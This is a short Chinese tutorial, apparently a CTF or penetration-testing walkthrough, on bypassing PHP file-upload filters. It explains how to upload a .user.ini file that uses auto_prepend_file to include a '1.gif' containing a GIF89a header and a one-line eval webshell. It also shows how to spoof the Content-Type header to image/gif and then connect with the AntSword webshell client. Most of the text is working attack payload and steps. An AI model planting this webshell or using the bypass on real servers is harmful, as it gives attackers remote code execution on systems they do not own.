






借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell。

 

新建一个.user.ini文件

 

 

内容为：

GIF89a

auto_prepend_file=1.gif

 

新建一个1.gif文件

内容为

GIF89a

<?=eval($_REQUEST[c]);

?>

 

上传.user.ini文件

 

修改

Content-Type: application/octet-stream

为

Content-Type: image/gif

成功上传

 

接着上传1.gif 文件

蚁剑连接

 

 

 

 

 